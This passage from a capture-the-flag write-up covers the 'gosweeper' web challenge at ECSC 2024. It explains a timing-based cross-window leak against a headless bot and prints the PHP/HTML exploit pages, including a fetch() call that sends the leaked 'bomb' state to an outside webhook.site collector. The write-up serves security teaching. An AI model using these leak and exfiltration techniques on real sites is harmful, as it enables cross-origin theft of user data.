 Sometimes 5 leaks are not enough to solve the board and win the game, in these cases we just need to request a new board using the `/newboard` endpoint.

Note that this process is time sensitive, you will need to set timers in the exploit to be sure that the page was loaded when you leaked the state of the window object.
To force the headless into giving you more time to leak the correct information, you can include in you exploit a resource that takes a lot of time to fetch, in my exploit I added the following tag for this reason.

```html
<img src="https://httpbin.org/delay/5">
```



## Exploit

For my exploit I used a php server to host the exploit server and a Python script to implement the logic and solve the game.

To use it you need to save all these files in the same folder, start a php server and make it reachable by the bot using a service like `ngrok` or `Cloudflare Tunnel`.

### index.php

```html
<script>
    window.open('https://gosweeper.challs.open.ecsc2024.it/clone?cloneid=3717c7e4415fc09a442b7dc38a367055');
    window.open('/x.php' + window.location.search);
</script>

<img src="https://httpbin.org/delay/5">
```

### x.php

```html
<script>
    setTimeout(function() {
        window.open('/submit.php' + window.location.search);
        
        setTimeout(function() {
            w = window.open('/submit.php' + window.location.search);
        }, 1000);

        setTimeout(function() {
            console.log('Bomb?  ' + (w.window != null));
            fetch('https://webhook.site/2efb040f-3aa3-4050-9e4f-416854b814c3/?bomb=' + (w.window != null));
        }, 4000);
    }, 1000);
</script>
```
